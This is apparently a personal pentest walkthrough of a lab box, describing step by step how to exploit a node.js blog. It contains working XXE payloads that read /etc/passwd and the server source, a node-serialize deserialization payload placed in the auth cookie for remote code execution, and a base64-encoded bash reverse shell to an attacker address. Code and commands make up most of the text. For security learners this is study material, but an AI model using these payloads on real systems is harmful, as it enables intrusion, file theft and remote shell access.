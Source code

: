 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Quick file upload win
```XML - kali
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```

### Burp to XXE
After logging in, go to file upload.

Create a test.txt with random characters.

echo "fdafasfsdf" > test.txt

Upload with Burp on.

Look in Burp for POST /articles/xml

Make a test.xml file with the template provided from Burp request:

test.xml
```xml - kali
<post><title>Example Post</title><description>Example Description</description><markdown>Example Markdown</markdown></post>
```

Upload the new test.xml file.

![[Pasted image 20220218093158.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#detect-the-vulnerability

Take the header lines from PayloadsAllTheThings
```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
```

Combine it with our xml code, update the description with "&example;":

```xml - xxe
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example "Doe"> ]>
<post><title>Example Post</title><description>&example;</description><markdown>Example Markdown</markdown></post>
```

Verify we see "Doe" in the description field.

![[Pasted image 20220218093947.png]]

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#classic-xxe

Pay attention to the !ENTITY value "test", and replace accordingly with the description field.

```xml - xxe
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<post><title>Example Post</title><description>&test;</description><markdown>Example Markdown</markdown></post>
```

![[Pasted image 20220218095220.png]]

Great, now for node.js system, we need to find one of the following files:

/opt/blog/app.js
/opt/blog/server.js
/opt/blog/main.js

Replace the payload until one works.

Take the source code of server.js, make a new folder "src", with a server.js document inside, pasting the source.js code.

Look at line 6, requirement of node-serialize.

>const serialize = require('node-serialize')

Google "node-serialize exploit"

https://snyk.io/test/npm/node-serialize

```
'{"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });}()"}';
```

While logged in, capture a request to "/" in Burp.

![[Pasted image 20220218101257.png]]

Decode the Cookie: value by highlighting it and pressing CTRL+Shift+U

Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}

EXAMPLE ls command:
```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"ls /\", function(error, stdout, stderr) { console.log(stdout) });}()"}

```

```bash - kali
echo "bash  -i >& /dev/tcp/$KALI/443  0>&1" | base64
```

YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo=

```bash - kali
echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash
```

Final should look like:

```
Cookie: auth={"user":"admin","sign":"23e112072945418601deb47d9a6c7de8","rce":"_$$ND_FUNC$$_function (){require(\"child_process\").exec(\"echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTE3LzQ0MyAgMD4mMQo= | base64 -d | bash\", function(error, stdout, stderr) { console.log(stdout) });}()"}
```

Highlight and convert selection to URL encoded: 

Convert selection > URL > URL encode ALL characters

Request should look like:

![[Pasted image 20220218103639.png]]
